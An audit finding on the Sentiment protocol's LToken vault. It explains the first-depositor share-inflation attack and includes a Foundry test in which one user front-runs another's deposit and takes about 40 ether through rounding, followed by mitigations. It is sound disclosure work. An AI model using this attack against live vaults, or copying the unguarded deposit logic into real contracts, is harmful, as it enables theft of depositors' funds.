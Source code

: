 cergyk
# First user can steal part of everyone else's tokens

https://github.com/sentimentxyz/protocol/blob/main/src/tokens/utils/ERC4626.sol#L48
## [H] First user can steal part of everyone else's tokens
### Problem
A user who deposits to LToken vault first can steal part of everybody's tokens by sending tokens to the system externally.
They can manipulate the price of a share.
This attack is possible because you enable depositing a small amount of tokens.
### Proof of Concept
Here is simple test that shows the flow, it is not the exploit (can make it on hardhat, just a lot of setup required)
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testTakeBobsMoney() public {
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);
        // alice 's bot monitors mempool

        assertEq(lErc20.previewDeposit(180 ether), 180 ether); //Bob checks that he will get 180 ether shares for his 180 ether
        // when bob deposits funds alice's bot puts transaction with higher priority  
        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewRedeem(1), (100 ether + 1));
       
        cheats.prank(bob);
        lErc20.deposit(180 ether, bob); // 2 shares cost 200 ether + 2 wei, so Bob gets only one share, because of rounding down

        assertEq(lErc20.previewRedeem(1), 140 ether); // now we have ~280 ether in the vault, 140 ether per share
        
        cheats.prank(alice);
        lErc20.redeem(1, alice, alice);

        uint aliceBalance = erc20.balanceOf(address(alice));
        assertEq(aliceBalance, (1040 ether - 1)); // alice got +~40 ether at the expense of bob
    }
}
```

### Mitigation
- Use Flashbots to avoid mempool.
- Force users to deposit at least some amount in the LToken vault.
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2:
[Uniswap/UniswapV2Pair.sol#L119-L121](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L121)

